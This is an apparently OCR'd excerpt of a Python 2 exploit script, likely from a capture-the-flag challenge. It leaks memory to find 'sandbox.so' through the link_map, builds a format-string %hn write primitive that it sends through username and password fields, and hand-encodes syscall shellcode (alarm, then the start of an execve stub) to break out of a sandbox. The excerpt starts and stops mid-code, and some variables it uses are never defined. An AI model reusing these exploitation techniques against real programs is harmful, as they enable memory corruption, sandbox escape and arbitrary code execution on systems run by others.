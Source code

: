         while len(content) < 8:
            res = readStr(where)
            content += (res + '\x00')
            where += (len(res)+1)
        return u64(content[:8].ljust(8,'\x00'))

    #iterate link_map to find the address of lib
    def findBase(dynamic, lib):
        r_debug = read8(dynamic)
        print 'r_debug is at %s' % hex(r_debug)

        link_map = read8(r_debug+8)
        print 'link_map is at %s' % hex(link_map)

        while True:
            l_name = read8(link_map+8)
            l_name_str = readStr(l_name)
            if l_name_str.endswith(lib):
                l_addr = read8(link_map)
                print '%s is at %s' % (l_name_str, hex(l_addr))
                break
            link_map = read8(link_map+24)
        return l_addr
    
    pinDynamic = 0x304a7e3e0
    sandboxBase = findBase(pinDynamic+13*16+8, 'sandbox.so')

    def write8(where, what):
        writes = {}
        writes[where] = what & 0xffff
        writes[where + 2] = (what >> 16) & 0xffff
        writes[where + 4] = (what >> 32) & 0xffff
        writes[where + 6] = (what >> 48) & 0xffff
        writes[retAddr] = addr0
    
        printed = 0
        username = ''
        password = ''
        index = 40
        for where, what in sorted(writes.items(), key=operator.itemgetter(1)):
            delta = (what - printed) & 0xffff

            if delta > 0:
                if delta < 8:
                    username += 'A' * delta
                else:
                    username += '%' + str(delta) + 'x'

            username += '%' + str(index) + '$hn'
            index += 1

            password += p64(where)
            printed += delta
        send(username+'\n'+password+'\n')


    '''
    6A25              push byte +0x25
    58                pop rax
    0F05              syscall
    '''
    # call alarm to invoke exit in sandbox
    shellcode1 = '6a25580f05'.decode('hex')


    '''
    6A3B              push byte +0x3b
    58                pop rax